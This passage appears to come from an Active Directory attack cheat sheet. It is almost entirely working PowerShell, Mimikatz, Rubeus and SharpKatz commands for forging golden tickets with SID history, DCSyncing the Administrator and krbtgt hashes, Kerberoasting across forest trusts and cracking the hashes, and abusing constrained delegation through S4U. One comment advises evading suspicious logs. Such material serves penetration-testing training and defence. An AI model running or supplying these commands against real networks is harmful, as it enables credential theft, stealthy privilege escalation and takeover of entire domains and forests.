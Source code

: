 ```powershell
# Avoid suspicious logs by using Domain Controllers group:
Invoke-Mimikatz -Command '"kerberos::golden /user:<current-dc$> /domain:<current.domain.local> /sid:<child-domain-sid> /groups:516 /krbtgt:<krbtgt-ntlm> /sids:<domain-controller-group-in-parent>,S-1-5-9 /ptt"'
# S-1-5-9 – Enterprise Domain Controllers
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<parent>\Administrator /domain:<parent.local>"'
```

## Cross Forest

After gaining EA in forest root

**Kerberoast across forest trust**  

```powershell
# Using PowerView
Get-DomainUser -SPN -Domain <trustedDomain.local>
# Or
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}

# Using ActiveDirectory Module:
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}

# Request a TGS
Rubeus.exe kerberoast /user:<user> /simple /domain:<trustedDomain.local> /outfile:<cross-forest-hashes.txt>

# Crack using John or Hashcat
john.exe --wordlist=<wordlist.txt> <cross-forest-hashes.txt>
```

**Constrained Delegation with Protocol Transmission**  
Does not work accross forest boundaries, but will work after a  
foothold is gained in the target forest.  

```powershell
# Using PowerView
Get-DomainUser –TrustedToAuth -Domain <trustedForest.local>
Get-DomainComputer –TrustedToAuth -Domain <trustedForest.local>
# Using ActiveDirectory module:
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server <trustedForest.local>

# We can request an alternate ticket using Rubeus, after compromising the user/machine password/hash
Rubeus.exe s4u /user:<user/machine$> /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:<trustedForest.local> /msdsspn:<msds-allowedtodelegateto-value> /altservice:ldap /dc:<dc.trustedForest.local> /ptt

# Abuse the TGS to LDAP:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<trustedForest>\krbtgt /domain:<trustedForest.local>"'
# Or
C:\AD\Tools\SharpKatz.exe --Command dcsync --User <trustedForest>\krbtgt --Domain <trustedForest.local> --DomainController <dc.trustedForest.local>
C:\AD\Tools\SharpKatz.exe --Command dcsync --User <trustedForest>\administrator --Domain <trustedForest.local> --DomainController <dc.trustedForest.local>
```
